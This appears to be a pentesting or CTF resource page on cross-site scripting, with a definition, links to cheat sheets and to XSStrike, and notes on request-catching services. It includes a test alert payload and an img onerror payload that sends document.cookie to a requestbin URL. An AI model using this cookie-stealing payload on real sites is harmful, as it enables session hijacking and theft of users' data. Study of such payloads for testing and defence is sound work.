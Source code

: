 The **XSS** vulnerability occurs when a user can control the content of a web page. A malicious code can be used to steal cookies of authentified users, redirect the user to a malicious site, or even execute arbitrary code on the user's machine.

* [XSS]/[Cross-site scripting]

	[XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet). [Cross-site scripting], vulnerability where the user can control rendered [HTML](https://en.wikipedia.org/wiki/HTML) and ideally inject [JavaScript](https://en.wikipedia.org/wiki/JavaScript) code that could drive a browser to any other website or make any malicious network calls. Example test payload is as follows:


```
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
```

	Typically you use this to steal cookies or other information, and you can do this with an online requestbin.

```
<img src="#" onerror="document.location='http://requestbin.fullcontact.com/168r30u1?c' + document.cookie">
```
* new usefull XSS cheat sheet : 'https://portswigger.net/web-security/cross-site-scripting/cheat-sheet'

* [XSStrike](https://github.com/UltimateHackers/XSStrike) 
	A command-line tool for automated [XSS](https://en.wikipedia.org/wiki/Cross-site_scripting) attacks. Seems to function like how [sqlmap](https://github.com/sqlmapproject/sqlmap) does.

* [`requestb.in`](https://requestb.in/)

	A free tool and online end-point that can be used to catch HTTP requests. Typically these are controlled and set by finding a [XSS](https://en.wikipedia.org/wiki/Cross-site_scripting) vulnerabilty.

* [`hookbin.com`](https://hookbin.com/)

	A free tool and online end-point that can be used to catch HTTP requests. Typically these are controlled and set by finding a [XSS](https://en.wikipedia.org/wiki/Cross-site_scripting) vulnerabilty.